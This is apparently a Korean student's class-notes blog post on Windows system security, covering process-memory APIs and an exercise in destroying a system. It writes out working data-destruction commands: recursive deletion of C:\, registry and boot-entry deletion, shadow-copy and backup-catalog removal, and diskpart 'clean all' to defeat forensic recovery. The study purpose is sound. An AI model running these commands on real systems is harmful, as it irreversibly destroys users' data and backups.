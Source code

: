 ```yaml
---
layout: post
title: "시스템 보안 2주차"
categories:
  - School
tags:
  - windows
  - "21105590"
last_modified_at: 2025-09-10
---
```


월요일.. 착각 이슈로 수업 빼버림 <br>
하......<br><br>

프로세스가 우리 시스템 안에서 할 수 있는 악성 행위 

# Win32 API 

memoryapi.h 라이브러리에 존재한다. -> 원래의 목적은 다른 프로세스(debuggee) 내부를 살펴보기 위한 디버거 구현시 사용 
<br><br>
debugger가 debuggee에 작성하기 위해서는 `WriteProcessMemory()` 를 활용하는 등.. <br>
프로세스 간 R,W가 되기 위해서는 디버거-디버기 관계가 중요 <br>
<br>
nop : not operation -> 
<br>
EULA? -> 데이터 수집 및 사용 
<br><br>
윈도우 시스템 파괴 <br>
접근 권한이 있는 상태에서 시스템을 재빨리 파괴하는 
ex) reg delete, RD C:\ /S /Q 

패치 방법도 생각해보기 

-> 가상머신이 없다.. 윈도우를 가져와야 하는데 
일단 서치만 해보자

bcdedit /enum firmware
bcdedit /delete {identifier}

---

먼저 생각난 건 디스크 없애기.. 포렌식이 어렵도록 하는 게 괴랄하다고 생각했다 
디스크는 그냥 삭제하는 것이 아닌 덮어쓰면 복구가 불가하다고 한다. 그래서 마지막에 disk를 고르면 clean all을 해주기로 했다. 

```bash
vssadmin delete shadows /all /quiet
wbadmin delete catalog -quiet
wmic shadowcopy delete
```

이건 복구가 불가능하도록 악성코드에서 많이들 실행하는 명령문이다. 

```bash
list disk 
select disk 1 
clean all 
```

집 가서 되나 확인해보기 